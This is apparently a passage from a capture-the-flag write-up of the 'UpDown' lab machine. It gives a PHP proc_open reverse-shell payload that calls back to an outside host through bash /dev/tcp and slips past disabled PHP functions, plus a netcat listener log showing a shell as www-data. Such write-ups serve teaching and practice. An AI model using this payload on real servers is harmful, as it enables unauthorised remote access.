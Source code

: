 There are lots of disable functions. Use [dfunc_bypass](https://github.com/zhsh9/dfunc-bypasser.git) to analyse it.

![image-20240305205511245](./UpDown.assets/image-20240305205511245.png)

**Exploit**:

1. Reverse shell payload:

```php
<?php
$proc=proc_open("bash -c 'bash -i >&/dev/tcp/10.10.16.8/1234 0>&1'",
  array(
    array("pipe","r"),
    array("pipe","w"),
    array("pipe","w")
  ),
  $pipes);
print stream_get_contents($pipes[1]);
?>
```

2. Nc to get a revshell

```console
└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.177] 38692
bash: cannot set terminal process group (909): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@updown:/var/www/dev$ uname -a
uname -a
Linux updown 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

